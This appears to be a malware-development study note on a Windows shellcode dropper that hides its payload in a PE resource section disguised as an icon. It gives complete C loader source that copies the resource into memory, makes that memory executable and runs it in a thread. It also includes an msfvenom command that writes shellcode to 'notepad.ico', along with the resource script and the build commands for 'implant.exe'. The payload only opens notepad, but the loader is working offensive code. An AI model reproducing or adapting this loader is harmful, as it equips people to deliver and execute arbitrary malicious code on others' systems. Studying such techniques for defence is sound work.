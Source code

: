 
Code Snippet
```c
/*
 storing payload in .rsrc section
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;  
    DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;
	
	unsigned char * payload;
	unsigned int payload_len;
	
	// Extract payload from resources section
	res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	payload = (char *) LockResource(resHandle);
	payload_len = SizeofResource(NULL, res);
	
	// Allocate some memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to new memory buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// Launch the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```
#### Retrieving payload from .rsrc algorithm (C-like pseudo-code)

```c
// 1. find the resource in .rsrc section containing payload 
res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA)

// 2. load the resource from .rsrc section
resHandle = LoadResource(NULL, res)

// 3. get a pointer to the loaded resource
payload = (char *) LockResource(resHandle);

// 4. get the size of the resource/payload
payload_len = SizeofResource(NULL, res)
```

---

[**_FindResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-findresourcea) determines the location of a resource with the specified type and name in the specified module (executable file or DLL). This function can be found in the _kernel32.dll_ library.

`FindResource()` function has the following prototype:
```c
HRSRC FindResource(
  HMODULE hModule,   // handle to the module containing the resource. If NULL, the function searches the module used to create the current process
  LPCTSTR lpName,    // name of the resource. Also, this parameter can be MAKEINTRESOURCE(ID), where ID is the integer identifier of the resource
  LPCTSTR lpType     // resource type, ex. RT_BITMAP, RT_ICON, RT_RCDATA, etc. Shellcode will be RT_RCDATA
);
```

**Return value**
If the function succeeds, the return value is a handle to the specified resource's information block. Otherwise, the return value is `NULL`.

---

[**_LoadResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource) is used to load a resource from the module's resource section. This function can be found in the _kernel32.dll_ library.

`LoadResource()` function has the following prototype:

```c
HGLOBAL LoadResource(
  HMODULE hModule,    // handle to the module whose executable file contains the resource if null searches the module used to create the current process
  HRSRC   hResInfo    // handle to the resource to be loaded (returned by FindResource() function)
);
```

**Return value**
If the function succeeds, the return value is a handle to the data associated with the resource. Otherwise, the return value is `NULL`.

---

[**_LockResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) is used to obtain a pointer to the data associated with a resource. This function can be found in the _kernel32.dll_ library.

`LockResource()` function has the following prototype:
```c
LPVOID LockResource(
  HGLOBAL hResData    // handle to the resource to be accessed (from LoadResource() function)
);
```

**Return value**

If the loaded resource is available, the return value is a pointer to the first byte of the resource; otherwise, it is `NULL`.

> `LockResource()` needs to be casted as a `char` because it returning a Long Pointer Void which means "a generic pointer to some memory, but I don’t know (or care) what type of data it points to.”

---

[**_SizeofResource()_**](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource) is used to retrieve the size (in bytes) of a resource. This function can be found in the _kernel32.dll_ library.

`SizeofResource()` function has the following prototype:
```c
DWORD SizeofResource(
  HMODULE hModule,    // handle to the module whose executable file contains the resource
  HRSRC   hResInfo    // handle to the resource to be loaded (returned by FindResource() function)
);
```

**Return value**
If the function succeeds, the return value is the number of bytes in the resource. Otherwise, the return value is zero.


### REST OF CODE EXPLAINED [HERE](obsidian://open?vault=Offensive%20Security&file=root%2FMalware%20Development%2FSektor7%2FDroppers%2FPayload%20held%20in%20.text)

---
#### Resources header file

Must be included in the code for reference - `resources.h`
```
#define FAVICON_ICO 100
```

---
#### Resource script

Saying FAVICON_ICO is the RCDATA type and points to the file calc.ico
```
#include "resources.h"

FAVICON_ICO RCDATA notepad.ico
```

---

#### Bin file creation

```bash
msfvenom -p windows/x64/exec CMD=notepad.exe EXITFUNC=thread -f raw -o notepad.ico
```

---

#### Compiling

```powershell
rc.exe resources.rc
cvtres.exe /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
```

In Windows, `rc.exe` and `cvtres.exe` are two command-line tools used in the process of building Windows applications. They are part of the Microsoft Visual Studio toolset.

1. [**_Resource Compiler_**](https://learn.microsoft.com/en-us/windows/win32/menurc/resource-compiler): `rc.exe` is a special resource compiler in Windows. It is used to compile resource script files (with a _.rc_ extension) into binary resource files (with a _.res_ extension). Resource script files contain resources such as icons, bitmaps, dialog boxes, menus, strings, version information, etc., that are used in Windows applications.
    
2. **_Resource Converter_**: `cvtres.exe` is used to convert resource files from an older format (usually _.res_ files) to the newer _.coff_ format (Microsoft's Common Object File). This conversion is necessary for compatibility with modern development tools and linkers. `cvtres.exe` is typically invoked during the build process after resource files are compiled with `rc.exe`.